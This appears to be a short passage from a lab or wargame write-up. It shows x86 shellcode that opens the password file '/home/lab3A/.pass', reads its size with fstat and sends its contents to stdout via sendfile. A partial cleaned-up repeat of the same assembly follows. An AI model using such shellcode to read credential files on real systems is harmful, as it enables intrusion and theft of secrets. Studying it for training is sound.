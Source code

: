 ```python

    /* call open('esp', 'O_RDONLY') */
    push SYS_open /* 5 */
    pop eax
    mov ebx, esp
    xor ecx, ecx
    int 0x80

    /* Save file descriptor for later */
    mov ebp, eax

    /* call fstat('eax', 'esp') */
    mov ebx, eax
    push SYS_fstat /* 0x6c */
    pop eax
    mov ecx, esp
    int 0x80

    /* Get file size */
    add esp, 20
    mov esi, [esp]

    /* call sendfile('edi', 'ebp', 0, 'esi') */
    xor eax, eax
    mov al, 0xbb
    mov ebx, edi
    mov ecx, ebp
    cdq /* edx=0 */
    int 0x80

>>> 
```

In a nicer format, this is what the assembly comes out to be:

```asm
/* Save destination */
push 1
pop edi

/* push '/home/lab3A/.pass\x00' */
push 0x73
push 0x7361702e
push 0x2f413362
push 0x616c2f65
push 0x6d6f682f

/* call open('esp', 'O_RDONLY') */
push SYS_open /* 5 */
pop eax
mov ebx, esp
xor ecx, ecx
int 0x80

/* Save file descriptor for later */
mov ebp, eax

/* call fstat('eax', 'esp') */
mov ebx, eax
push SYS_fstat /* 0x6c */
pop eax
mov ecx, esp
int 0x80

```